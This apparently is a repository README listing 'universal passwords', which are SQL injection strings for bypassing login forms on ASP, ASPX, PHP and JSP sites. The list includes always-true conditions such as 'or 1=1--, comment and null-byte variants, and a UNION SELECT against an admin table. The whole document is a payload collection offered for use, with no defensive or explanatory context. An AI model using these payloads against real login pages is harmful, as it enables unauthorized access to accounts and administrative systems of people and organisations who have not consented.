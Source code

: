 # wan-nen-mi-ma
asp、aspx、php、jsp万能密码大全 asp aspx万能密码   1："or "a"="a  2： ')or('a'='a  3：or 1=1--  4：'or 1=1--  5：a'or' 1=1--  6："or 1=1--  7：'or'a'='a  8："or"="a'='a  9：'or''='  10：'or'='or'  11：1 or '1'='1'=1  12：1 or '1'='1' or 1=1  13： 'OR 1=1%00  14： "or 1=1%00  15：'xor  16： 用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin）  密码 1   17..admin' or 'a'='a 密码随便    PHP万能密码   'or 1=1/*   User: something  Pass: ' or '1'='1   jsp 万能密码   1'or'1'='1   admin' or 1=1/*
